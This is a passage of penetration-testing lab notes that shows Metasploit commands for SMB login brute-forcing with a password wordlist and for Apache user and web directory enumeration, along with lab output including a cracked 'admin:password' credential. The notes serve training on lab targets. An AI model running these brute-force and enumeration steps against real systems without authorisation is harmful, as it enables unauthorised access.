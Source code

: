 > [**`auxiliary/scanner/smb/smb_login`**](https://www.offsec.com/metasploit-unleashed/smb-login-check/)

```bash
back
search smb_login
use auxiliary/scanner/smb/smb_login
options
set SMBUser admin
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

```bash
[+] 192.132.155.3:445 - 192.132.155.3:445 - Success: '.\admin:password'
```

#### [HTTP](../assessment-methodologies/3-enumeration/http-enum.md#lab-3)

> 🔬 [Metasploit - Apache Enumeration Lab](https://www.attackdefense.com/challengedetails?cid=118)

- Remember to specify the correct port and if targeting a web server with SSL enabled, in the options.

```bash
ip -br -c a
setg RHOSTS 192.106.226.3
setg RHOST 192.106.226.3
workspace -a HTTP_ENUM
```

> **`auxiliary/scanner/http/apache_userdir_enum`**

```bash
search apache_userdir_enum
use auxiliary/scanner/http/apache_userdir_enum
options
info
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
run
```

```bash
[+] http://192.106.226.3/ - Users found: rooty
```

> **`auxiliary/scanner/http/brute_dirs`**

> **`auxiliary/scanner/http/dir_scanner`**

```bash
search dir_scanner
use auxiliary/scanner/http/dir_scanner
options
run
```

> **`auxiliary/scanner/http/dir_listing`**
